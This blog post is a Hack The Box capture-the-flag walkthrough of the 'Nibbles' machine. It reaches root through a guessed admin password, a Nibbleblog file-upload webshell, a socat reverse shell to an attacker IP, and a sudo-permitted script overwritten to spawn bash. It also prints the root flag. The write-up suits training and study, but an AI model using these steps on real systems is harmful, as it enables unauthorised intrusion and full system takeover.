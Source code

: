 ```yaml
---
layout: post
title: Nibbles Writeup
date: '2019-12-18 17:10:00'
tags:
- hack-the-box
---
```


## Enumeration

The usual Autorecon enumeration turned up ports 80 & 22 open. Taking a look at the webserver running on port 80 revealed a Hello World page but looking at the source showed an interesting comment:

<figure class="kg-card kg-image-card"><img src="/content/images/2019/12/Screenshot-from-2019-12-18-10-53-06.png" class="kg-image"></figure>

Going to /nibbleblog we an see that it's running an instance of the [Nibbleblog](http://www.nibbleblog.com/) software.

A search on ExploitDB lists an file upload [vulnerability](https://www.exploit-db.com/exploits/38489) but we need a username and password. I spent a while hunting around before trying `admin/nibbles` which worked. I'm not a big fan of password guessing like this, but I guess it is realistic!

## Initial Exploitation

Following the PoC [here](http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html) I first grabbed a PHP Webshell. I choose [php33r](https://www.fuzzysecurity.com/scripts/16.html) as I hadn't used it before and it looked pretty neat.

I uploaded the file as detailed and then visited the location and I indeed had a webshell on the server:

<figure class="kg-card kg-image-card"><img src="/content/images/2019/12/Screenshot-from-2019-12-18-11-02-14.png" class="kg-image"></figure>

I had a quick look around and it turned out to be easy to grab user.txt

<figure class="kg-card kg-image-card"><img src="/content/images/2019/12/Screenshot-from-2019-12-18-11-04-19.png" class="kg-image"></figure>
## Privilege Escalation

I noticed the `personal.zip` file in the home directory so I copied this to a location that was accessible from the web and downloaded it to my Kali box. Extracting it revealed the following structure, and monitor.sh seemed to be a system monitoring script, which wasn't a lot of use at the moment.

    personal
    └── stuff
        └── monitor.sh
    
    1 directory, 1 file

At this point I decided I wanted a proper shell rather than having to interact with the webshell. The webshell had the ability to upload files, so I uploaded my local copy of `socat` and did a `chmod u+x socat` at the remote end to make it exectuable.

I ran the listener on my Kali box with:

    socat file:`tty`,raw,echo=0 tcp-listen:4444  

and then used the webshell to run

    ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.4:4444  

This allowed me to catch a full tty enabled shell.

At this point I tried `sudo -l` but this seemed to hang. I went on and tried other things, before just being more patient and actually getting a response as a lookup for the box name was timing out.

This revealed that the nibbler account could run `/home/nibbler/personal/stuff/monitor.sh​` as root with no password. Creating a quick script with `/bin/bash -i` in it and then running with `sudo /home/nibbler/personal/stuff/monitor.sh` we get a root shell and can grab the flag `b6d745c0dfb6457c55591efc898ef88c`

